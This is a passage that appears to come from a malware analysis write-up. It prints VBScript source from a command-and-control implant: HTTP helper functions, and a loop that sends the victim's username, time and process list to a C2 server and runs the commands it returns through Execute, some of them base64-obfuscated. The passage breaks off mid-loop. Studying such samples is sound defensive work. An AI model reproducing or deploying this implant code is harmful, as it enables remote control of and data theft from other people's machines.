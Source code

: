```vb
function post(u,content)
	on error resume next
	set hReq=CreateObject("MSXML2.XMLHTTP")
	ul=u & "&isbn=" & (timer()*100)
	hReq.Open "POST", ul, false
	hReq.Send content
	if hReq.Status=200 then
		post=hReq.responseText
	end if
end function
function uget(u)
	on error resume next
	set hrq=CreateObject("MSXML2.XMLHTTP")
	ul=u & "&id=" & (timer()*100)
	hrq.Open "GET", ul, false
	hrq.Send
	if hrq.Status=200 then
		uget=hrq.responseText
	end if
end function
```

<h6>The main code launches the recon action on the system and format for request in clear the informations to the C2, in function of the response of the C2, this executes commands on the system, in clear or with base 64 + substrings operations as obfuscation.</h6>

```vb
set sh=CreateObject("wscript.Shell")
ent=Chr(13)+Chr(10) '\n
tab=Chr(9) '\t
uID=CStr(rand())
if WScript.Arguments.Length>1 then
	uID=uID&WScript.Arguments.Item(1)
end if
if WScript.Arguments.Length>0 then
	uu="http://"&WScript.Arguments.Item(0)
end if
sData=getInfo()
if IsNull(sData) then
	sData=""
end if
sData="Username:"+tab+getUName()+ent+sData
sUri=""
url=uu+"?topic=v"+CStr(randID())+"&session="+uID
do while 1>0
	psc=""
	curDate = "Current Time:"&tab&Date&" "&Time
	pl=getProc()
	pData=curDate+ent+sData+ent
	if not IsNull(pl) then
		pData=pData+pl
	end if
	res=post(url,pData)
	if InStr(1,res,"20#")<>0 then
		psc=NStep(res)
		if psc<>"" then
			Execute(psc)
			exit do
		end if
	elseif res="21" then
		exit do
	elseif InStr(1,res,"23#")<>0 then
		nps=InStr(1,res,"#")
		Execute(bdec(Mid(res,nps+1,Len(res)-nps)))
```